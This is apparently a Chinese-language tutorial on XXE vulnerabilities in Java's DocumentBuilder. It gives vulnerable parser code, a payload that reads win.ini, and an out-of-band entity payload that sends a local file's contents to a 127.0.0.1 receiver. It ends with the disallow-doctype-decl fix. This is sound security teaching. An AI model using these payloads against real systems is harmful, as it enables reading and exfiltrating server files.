


java安全之xxe
--

xxe这种漏洞无论是在php中还是java中，审计起来应该都是有迹可循的，在php中全局搜索特定函数，在java中需要找解析xml文档的类有没有被使用，所以，我们首先需要知道java有哪些常见的解析xml的类。

### DocumentBuilder基础使用

```java
import org.w3c.dom.Document;
import org.w3c.dom.Element;
import org.w3c.dom.NodeList;
import org.xml.sax.SAXException;


import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import java.io.File;
import java.io.IOException;

public class Main {
    public static void main(String[] args) throws ParserConfigurationException, IOException, SAXException {
        File file = new File("./payload.xml");

        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        DocumentBuilder builder = factory.newDocumentBuilder();
        Document doc = builder.parse(file);
        // 根据tag名获取标签，是不是很像js中的getElementByTagName函数
        NodeList nodeList = doc.getElementsByTagName("person");
        Element element = (Element) nodeList.item(0);

        System.out.println("姓名：" + element.getElementsByTagName("name").item(0).getFirstChild().getNodeValue());
        System.out.println("年龄：" + element.getElementsByTagName("age").item(0).getFirstChild().getNodeValue());
    }
}
```

其中payload.xml文件内容如下：

```xml
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
        <!ENTITY test SYSTEM "file:///c:/windows/win.ini">
        ]>
<person>
    <name>axin</name>
    <age>&test;</age>
</person>
```

这样就会读取本机的win.ini文件并打印到控制台：




### javax.xml.parsers.DocumentBuilder 案例2

这个类导致的xxe漏洞感觉挺多的。微信支付，以及CVE-2017-12629都是由于这个类没有进行安全设置导致的。

用一个例子来学习一下这个类怎么导致xxe

```java
import jdk.internal.org.xml.sax.SAXException;
import org.w3c.dom.Document;
import org.w3c.dom.NodeList;

import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import java.io.IOException;

public class ReadxmlByDom {
    private static DocumentBuilderFactory dbFactory = null;
    private static DocumentBuilder db = null;
    private static Document document = null;
    static{
        try {
            dbFactory = DocumentBuilderFactory.newInstance();
            // dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            db = dbFactory.newDocumentBuilder();
        } catch (ParserConfigurationException e) {
            e.printStackTrace();
        }
    }

    public static void main(String args[]) throws IOException, SAXException, org.xml.sax.SAXException {
        document = db.parse(ReadxmlByDom.class.getResourceAsStream("/request.xml"));
        NodeList nodeList = document.getElementsByTagName("root");
        String nodeValue = nodeList.item(0).getFirstChild().getNodeValue();
        System.out.println(nodeValue);
    }
}
```

request.xml如下：

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
        <!ENTITY % remote SYSTEM "http://localhost:8000/attack.xml">
        %remote;
        ]>
<root></root>
```

attack.xml如下：
```xml
<!ENTITY % payload  SYSTEM "file:///tmp/test123">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://127.0.0.1:8080/test?name=%payload;'>">
%int;
%trick;
```

上面的代码会读取并解析request.xml这个文件，由于没有进行安全配置，所以导致加载远程文件attack.xml，这个文件中的被解析后就会读取本地的`/tmp/test123`并把内容发送到http://127.0.0.1:8080/。

我在8080端口用spring boot构建了一个接受数据的web应用，代码如下：

```java

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;

@Controller
@RequestMapping("/test")
public class TestController {

    @RequestMapping("")
    public String hello(String name) {
        System.out.println(name);
        return "welcome";
    }
}
```

这个应用在接受到数据时，会将数据打印到控制台




###  防御方法

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
DocumentBuilder db = dbf.newDocumentBuilder(); 
Document document = db.parse(in);
```

serFeature是关键，设置了过后，再解析xml时会直接报错，如下：


### 参考

spring boot 快速创建项目：http://tengj.top/2017/02/26/springboot1/

微信支付xxe:https://benjaminwhx.com/2018/07/05/%E7%94%B1%E5%BE%AE%E4%BF%A1%E6%94%AF%E4%BB%98XXE%E6%BC%8F%E6%B4%9E%E8%B0%88%E8%B0%88%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86%E4%BB%A5%E5%8F%8A%E5%A6%82%E4%BD%95%E9%A2%84%E9%98%B2/

java xxe:https://blog.spoock.com/2018/10/23/java-xxe/